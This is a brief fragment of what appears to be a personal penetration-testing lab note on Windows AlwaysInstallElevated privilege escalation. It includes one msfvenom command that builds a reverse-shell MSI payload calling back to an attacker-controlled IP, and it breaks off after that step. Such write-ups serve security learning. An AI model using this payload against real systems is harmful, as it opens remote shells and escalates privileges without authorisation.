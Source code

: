 ![](Pasted%20image%2020221108101801.png)

![](Pasted%20image%2020221108103449.png)
#AlwaysInstallElevatedPrivilegeEscalation

#### - Googled "alwayinstallelevated privilege escalation" and found the following webpage showing how to create a reverse shell payload. I typed "msfvenom -p windows/shell_reverse_tcp LHOST=[kali IP] LPORT=443 -f msi > installer.msi" to create the payload on my kali machine:
